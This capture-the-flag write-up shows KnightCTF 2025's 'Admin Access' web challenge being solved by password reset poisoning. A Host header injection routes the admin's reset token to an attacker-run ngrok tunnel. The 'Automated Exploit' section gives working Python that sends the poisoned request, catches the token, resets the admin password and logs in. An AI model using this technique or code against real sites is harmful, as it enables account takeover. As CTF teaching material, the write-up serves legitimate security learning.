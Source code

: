 # Admin Access

<!--more-->
### Initial Analysis

The site appeared as follows, with a login screen:

![Site Presentation](/images/KnightCTF-2025/Admin-Access/site_presentation.png "Site Presentation")

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![Admin Email](/images/KnightCTF-2025/Admin-Access/admin_email.png "Admin Email")

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![Forgot Password](/images/KnightCTF-2025/Admin-Access/forgot_password.png "Forgot Password")

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:
{{< typeit code=bash >}}
ngrok http 80
{{< /typeit >}}
And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![Intercept](/images/KnightCTF-2025/Admin-Access/intercept.png "Intercept")

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![Manual Flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png "Manual Flag")

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
{{< /typeit >}}
{{< /admonition >}}
